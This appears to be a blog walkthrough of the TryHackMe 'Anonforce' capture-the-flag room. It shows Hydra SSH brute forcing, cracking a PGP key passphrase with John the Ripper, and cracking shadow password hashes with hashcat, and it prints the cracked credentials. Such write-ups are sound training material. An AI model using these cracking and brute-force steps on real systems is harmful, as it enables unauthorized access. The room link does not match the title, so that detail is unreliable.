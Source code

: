 ```yaml
---
layout: post
title: Walkthrough - Anonforce
published: true
---
```


Security. boot2root machine for FIT and bsides guatemala CTF.

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

a ftp and an ssh server

ftp allowd anon connections so connecting to that we find a user `melodias`. lets start a hydra ssh while we try to find more info.

- `hydra -l melodias -P /usr/share/seclists/Passwords/rockyou.txt 10.10.146.159 ssh`

So found a few new interesting files to check out `pricate.asc` which is an asc file. ASC files are used for posting online security notices as well as securely transmitting messages. Also find a `backup.pgp` which is a pretty good privacy security key. What can we do with these?

- `pgpdump backup.pgp`
- we can try to import the private key `gpg --import private.asc` but doing so we need a passphrase to import.
- feed it to gpg2john `gpg2john private.asc > private-john.asc` then feed the output to john `john private-john.asc --wordlist=/usr/share/seclists/Passwords/rockyou.txt`

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Anonforce/ftp]
└─$ john private-john.asc --wordlist=/usr/share/seclists/Passwords/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)     
1g 0:00:00:00 DONE (2022-08-10 23:04) 5.555g/s 5177p/s 5177c/s 5177C/s xbox360..madalina
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- now we can import the key `gpg --import private.asc` 
- and then decrypt the `backup.gpg` - `gpg --decrypt backup.pgp`

Clipping this as we have 2 different hashes.

- root.hash

```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
```

- `hcat -m 1800 root.hash /usr/share/seclists/Passwords/rockyou.txt`
- cracked `$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari`

- melodias.hash

```
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
```

- `hashcat -m 500 melodias.hash /usr/share/seclists/Passwords/rockyou.txt`
- exhausted



* * * 

## What is the user flag?

- `cat user.txt`

* * * 

## What is the root flag?

- `cat root.txt`

* * * 

